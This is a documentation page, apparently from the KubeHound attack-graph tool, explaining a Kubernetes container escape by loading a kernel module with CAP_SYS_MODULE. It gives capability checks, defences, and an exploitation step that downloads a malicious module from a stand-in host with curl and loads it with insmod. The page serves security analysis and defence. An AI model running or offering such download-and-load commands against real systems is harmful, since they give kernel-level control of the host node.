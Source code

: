 ```yaml
---
title: CE_MODULE_LOAD
---
```


<!--
id: CE_MODULE_LOAD
name: "Container escape: Load kernel module"
mitreAttackTechnique: T1611 - Escape to host
mitreAttackTactic: TA0004 - Privilege escalation
-->

# CE_MODULE_LOAD

| Source                                | Destination                 | MITRE                                                               |
| ------------------------------------- | --------------------------- | ------------------------------------------------------------------- |
| [Container](../entities/container.md) | [Node](../entities/node.md) | [Escape to Host, T1611](https://attack.mitre.org/techniques/T1611/) |

Load a kernel module from within an overprivileged container to breakout into the node.

## Details

Container isolation mechanisms are restricted to user-space execution. If an attacker gains kernel level execution via loading a kernel module or exploiting a kernel vulnerability, all isolation mechanisms can be bypassed. If a container is run with `--privileged` or if `CAP_SYS_MODULE` is explicitly enabled via the `securityContext` setting, kernel modules can be loaded from within the container, leading to a trivial and powerful container escape.

## Prerequisites

Execution within a container process with the `CAP_SYS_MODULE` capability enabled.

See the [example pod spec](https://github.com/DataDog/KubeHound/tree/main/test/setup/test-cluster/attacks/CE_MODULE_LOAD.yaml).

## Checks

From within a running container, determine whether it is running with `CAP_SYS_MODULE`:

```bash
# Check the current process' capabilities
cat /proc/self/status | grep CapEff
# CapEff:	00000000a80425fb

# Decode the capabilities (on current box or offline) and check for CAP_SYS_MODULE
# NOTE: can install capsh via apt-get update && apt-get install libcap2-bin
capsh --decode=00000000a80425fb | grep cap_sys_module
```

## Exploitation

Download a pre-compiled kernel module suitable for the target OS/architecture (see [examples](https://github.com/milabs/awesome-linux-rootkits)) and load from within the container:

```bash
curl -O exploit.delivery/bad.ko
insmod bad.ko
```

## Defences

### Monitoring

+ Monitor for unfamiliar kernel modules loaded or kernel modules loaded from within a running pod which should both be high-fidelity signals of malicious activity.

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with additional powerful capabilities.

### Least Privilege

Avoid running containers as the `root` user. Enforce running as an unprivileged user account using the `runAsNonRoot` setting inside `securityContext` (or explicitly setting `runAsUser` to an unprivileged user). Additionally, ensure that `allowPrivilegeEscalation: false` is set in `securityContext` to prevent a container running as an unprivileged user from being able to escalate to running as the `root` user.

## Calculation

+ [EscapeModuleLoad](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/escape_module_load.go)

## References:

+ [Compendium Of Container Escapes](https://i.blackhat.com/USA-19/Thursday/us-19-Edwards-Compendium-Of-Container-Escapes-up.pdf)
+ [Linux Privilege Escalation - Exploiting Capabilities - StefLan's Security Blog](https://steflan-security.com/linux-privilege-escalation-exploiting-capabilities/)
+ [Module Load Breakout](https://raesene.github.io/blog/2023/08/06/fun-with-privileged-container-breakout/)
